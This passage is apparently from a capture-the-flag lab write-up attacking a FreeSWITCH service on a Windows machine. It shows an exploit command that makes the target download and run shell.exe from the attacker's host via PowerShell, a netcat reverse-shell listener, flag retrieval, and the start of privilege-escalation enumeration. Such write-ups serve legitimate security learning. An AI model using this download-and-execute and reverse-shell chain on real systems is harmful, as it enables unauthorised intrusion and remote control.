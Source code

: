 ```
└──╼ $sudo python3 -m http.server
[sudo] Mot de passe de nair0lf: 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...


```

Send it! (and execute it)

```
└──╼ $python3 exploit.py 10.10.58.12 "powershell.exe Invoke-WebRequest -Uri http://10.8.226.203:8000/shell.exe -OutFile ./shell.exe && .\shell.exe"
Authenticated

```

Get in!

```
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 49845
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\FreeSWITCH>

```
FLAG 1 acquired!

```
c:\Users\Nekrotic\Desktop>type user.txt
type user.txt
THM{beep-beep-beep-beep-beep} 
```
```
C:\Users\Nekrotic\Desktop>type root.txt
type root.txt
Access is denied.

```

Obviously...

## Privilege escalation

From the little I know about windows privilege escalation, it's mostly enumeration

First let's check who we are

```
C:\Users\Nekrotic\Desktop>net user
net user

User accounts for \\WIN-EOM4PK0578N

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
Nekrotic                 WDAGUtilityAccount       
The command completed successfully.

```
